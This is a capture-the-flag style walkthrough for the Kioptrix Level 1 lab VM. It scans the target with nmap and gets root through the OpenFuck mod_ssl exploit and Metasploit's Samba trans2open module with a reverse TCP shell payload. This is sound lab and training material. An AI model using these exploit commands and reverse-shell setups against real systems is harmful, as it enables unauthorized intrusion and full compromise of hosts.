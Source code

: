 # Kioptix Level 1

# Footprinting
Find the IP address of the target host via:

```bash
netdiscover -r 10.0.0.0/24
```

For the purpose of this guide we will assume our target is at IP address **10.0.0.3**.

# Reconnaisance
```bash
nmap 10.0.0.3
```
```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
443/tcp   open  https
32768/tcp open  filenet-tms
MAC Address: 08:00:27:BC:A2:66 (Oracle VirtualBox virtual NIC)
```
Now we proceed by examining each of the services on the machine.

## SSH
```bash
nmap -A 10.0.0.3 -p 22
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey:
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
MAC Address: 08:00:27:BC:A2:66 (Oracle VirtualBox virtual NIC)
```

Analysis of the SSH version and some brute force attempts using hydra do yield any success.
However, it should be noted that the support of SSHv1 is strongly discouraged as it has inherent weaknesses.

# HTTP
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods:
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
```
Following this ```dirbuster``` was used to enumerate directories and locations.
No specific locations were found.

Analysis of the HTTPD version revealed the ```OpenFuck``` vulnerability was present.

```bash
./OpenFuck 0x6b 10.0.0.3
```

Find more details at: https://www.exploit-db.com/exploits/764.

This gives root once executed against the target.

# RPC & filenet
Neither of these services yielded much.

No vulnerabilities were found for either.

Port ```32768``` seemed to be associated to trojans, with little context.

# NetBIOS

We used Metasploit instead of enum4linux due to version detection bugs.

```powershell
msf auxiliary(scanner/smb/smb_version) > run
[*] 10.0.2.7:139          - Host could not be identified: Unix (Samba 2.2.1a)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/smb/smb_version) >
```
Based on the SAMBA version of **2.2.1a** the following was found: https://www.exploit-db.com/exploits/10.

## Metasploit Exploitation

Using msf we were able to gain root:

```
use exploit/linux/samba/trans2open

set payload linux/x86/shell/reverse_tcp
```
